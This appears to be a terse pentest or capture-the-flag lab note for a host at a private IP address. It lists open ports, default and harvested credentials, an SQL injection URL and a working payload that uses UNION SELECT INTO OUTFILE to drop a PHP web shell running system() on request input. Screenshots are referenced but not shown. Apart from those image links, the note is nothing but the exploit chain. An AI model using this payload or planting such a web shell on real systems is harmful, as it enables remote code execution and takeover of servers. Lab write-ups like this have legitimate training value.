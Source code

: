 _____

> [!info]
IP=192.168.211.147

# 50080

/cloud
- admin:admin

# 17445

issue_user:ManagementInsideOld797


## SQLi

![[Pasted image 20240216090146.png]]

```bash
http://192.168.211.147:17445/issue/checkByPriority?priority=EXPLOIT
```

```sql
' union select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

![[Pasted image 20240216091131.png]]


![[Pasted image 20240216091208.png]]





